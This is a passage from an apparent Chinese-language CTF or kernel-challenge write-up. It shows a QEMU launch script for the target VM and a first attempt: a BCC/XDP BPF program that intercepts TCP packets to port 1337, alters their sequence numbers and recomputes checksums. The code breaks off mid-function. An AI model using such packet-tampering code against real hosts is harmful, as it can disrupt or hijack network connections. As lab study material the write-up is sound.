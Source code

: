 將 server 執行在 VM 當中，並透過 host network formwarding 的方式與 server 互動。下方為執行 VM 的腳本：

``` bash
qemu-system-x86_64 \
    -m 1G \
    -smp 1 \
    -nographic \
    -monitor /dev/null \
    -kernel ./arch/x86_64/boot/bzImage \
    -append "console=ttyS0 nokaslr pti=on quiet" \
    -cpu qemu64,+smep,+smap \
    -initrd ./rootfs.cpio \
    -netdev user,id=mynet0,hostfwd=tcp::1337-:1337 \
    -device e1000,netdev=mynet0 \
    -s
```

### 嘗試 1 - BPF

安裝 [bcc](https://github.com/iovisor/bcc/blob/master/INSTALL.md#ubuntu---binary)：

```bash
sudo apt-get install bpfcc-tools linux-headers-$(uname -r)
```

寫 BPF program 來 hook TCP request 並改變 sequence number，最後修好 checksum 後送出。下方的 bpf program 假設 server port 聽在 1337。

```python
#!/usr/bin/python3
from bcc import BPF

bpf_program = '''
#include <linux/if_ether.h>
#include <linux/ip.h>
#include <linux/tcp.h>

int modify_tcp_seq(struct xdp_md *ctx) {
    void *data_end = (void *)(long)ctx->data_end;
    void *data = (void *)(long)ctx->data;
    
    struct ethhdr *eth = data;
    if ((void *)&eth[1] > data_end)
        return XDP_PASS;
    if (eth->h_proto != htons(ETH_P_IP))
        return XDP_PASS;

    struct iphdr *iph = data + sizeof(*eth);
    if ((void *)&iph[1] > data_end)
        return XDP_PASS;
    if (iph->protocol != IPPROTO_TCP)
        return XDP_PASS;

    struct tcphdr *tcph = data + sizeof(*eth) + sizeof(*iph);
    if ((void *)&tcph[1] > data_end)
        return XDP_PASS;

    if (ntohs(tcph->dest) != 1337)
        return XDP_PASS;

    __u32 new_seq = bpf_htonl(bpf_ntohl(tcph->seq) - (bpf_get_prandom_u32() % 0x1000));
    __u32 new_check;
    {
        uint32_t sum = ~ntohs(tcph->check) & 0xffff;
        sum -= (ntohs(tcph->seq >> 16) & 0xffff);
        sum -= (ntohs(tcph->seq & 0xffff) & 0xffff);
        sum += (ntohs(new_seq >> 16) & 0xffff);
```
